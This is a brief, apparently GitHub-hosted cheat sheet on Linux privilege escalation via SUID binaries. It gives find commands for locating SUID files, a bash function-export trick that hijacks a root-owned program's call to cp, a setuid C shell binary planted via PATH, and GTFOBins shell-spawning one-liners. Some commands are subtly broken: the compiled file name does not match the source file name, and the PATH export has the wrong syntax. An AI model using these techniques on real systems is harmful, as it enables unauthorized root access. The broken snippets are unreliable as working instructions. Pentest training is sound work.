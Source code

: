 ## SUID

### How to Find SUIDs?

To find SUID that may be useful then execute the following commands:

```
find / -perm -u=s -type f 2>/dev/null
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -uid 0 -perm -4000 -type f 2>/dev/null
```

For example, an output could be:

```
bash-4.2$ find / -user root -perm -4000 -print 2> /dev/null
find / -user root -perm -4000 -print 2> /dev/null
/usr/bin/mount
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/su
/usr/bin/update_my_docs
[... reduced ...]
````

If we'll check the /usr/bin/update_my_docs we'll see it's running under root ownership:

```
bash-4.2$: ls /usr/bin/update_my_docs -alh                  
-rwsr-xr-x 1 root root 138K 23 nov.  16:04 /usr/bin/update_my_docs
```

### Exploiting SUID

Exploiting SUIDs binaries is very simple and there are two diffrent techniques to use it.

#### Bash Function Manipulation

In this technique, we'll export a bash function matching one of the programs called by the program (i.e., "/usr/bin/cp"):

```
function /usr/bin/cp(){ /bin/sh; }
export -f /usr/bin/cp
```

Then we'll execute our program /usr/bin/update_my_docs to get our shell.

#### Create Binary SUID

In this method, we'll create a SUID bianry as following:

```
echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > /tmp/setuid.c
gcc -o /tmp/suid /tmp/suid.c  
sudo chmod +x /tmp/suid # execute right
sudo chmod +s /tmp/suid # setuid bit
```

Place it in our $PATH using the command:

```
export $PATH=/tmp:$PATH
```

Then execute our binary to get shell as root.

#### GTFOBins 

GTFOBins is a list of UNIX binaries that can be exploited to bypass local security restrictions. Those binaries can be abused to escape restricted shells, spawn remote shells, elevate privlieges 
and more. 

A few examples: 

``` 
awk 'BEGIN {system("/bin/sh")}'
sudo find . -exec /bin/sh \; -quit
```

For more acurated list: https://gtfobins.github.io/gtfobins/
